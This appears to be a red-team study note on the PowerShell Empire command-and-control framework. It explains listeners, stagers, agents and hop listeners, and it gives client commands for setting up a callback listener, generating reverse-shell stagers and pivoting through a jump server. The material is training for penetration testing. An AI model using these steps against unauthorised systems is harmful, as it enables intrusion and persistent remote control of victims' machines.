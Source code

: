 # Command and Control with Empire

With a foothold in a target network, we can start looking to bring what is known as a C2 (Command and Control) Framework into play. C2 Frameworks are used to consolidate an attacker's position within a network and simplify post-exploitation steps (privesc, AV evasion, pivoting, looting, covert network tactics, etc), as well as providing red teams with extensive collaboration features.

Powershell Empire is, as the name suggests, a framework built primarily to attack Windows targets (although especially with the advent of dotnet core, more and more of the functionality may become usable in other systems). It provides a wide range of modules to take initial access to a network of devices, and turn it into something much bigger. In this section we will be looking at the principles

---

## 1.0 Empire information

- **Listeners** are fairly self-explanatory. They listen for a connection and facilitate further exploitation
- **Stagers** are essentially payloads generated by Empire to create a robust reverse shell in conjunction with a listener. They are the delivery mechanism for agents
- **Agents** are the equivalent of a Metasploit "Session". They are connections to compromised targets, and allow an attacker to further interact with the system
- **Modules** are used to in conjunction with agents to perform further exploitation. For example, they can work through an existing agent to dump the password hashes from the server

---

## 2.0 Downloading Empire

```bash
sudo apt install powershell-empire starkiller
```

## 3.0 Commands

Starting empire server:

```bash
sudo powershell-empire server
```

Exit menu

```bash
back
```

Go back to main

```bash
main
```

Starting empire client:

```bash
sudo powershell-empire client
```

---

## 4.0 Empire Listeners

Listeners in Empire are used to receive connections from stagers (which we'll look at in the next task). The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

Select a listener trough the client:

```bash
uselistener LISTENER
```

Example:

```bash
uselistener http
```

Set options for the listener

```bash
set OPTION VALUE
```

- Example:
    
    ```bash
    set Host 10.50.10.5
    ```
    

Run the listener:

```bash
execute
```

<aside>
📌 Bear in mind that option names are case sensitive in Empire.

</aside>

---

## 5.0 Stagers

Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

Use a stager: (When in doubt, multi/launcher is often a good bet.)

```bash
usestager {stager}
```

Set options:

```bash
set OPTION VALUE
```

- Example:
    
    ```bash
    set LISTENER <listener>
    ```
    

---

## 6.0 Agents

Now that we've started a listener and created a stager, it's time to put them together to get an agent!

List agents:

```bash
agents
```

Interact with agent:

```bash
interact AGENT_NAME
```

---

## 7.0 Hop Listeners

Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine.

Use http hop listener:

```bash
uselistener http_hop
```
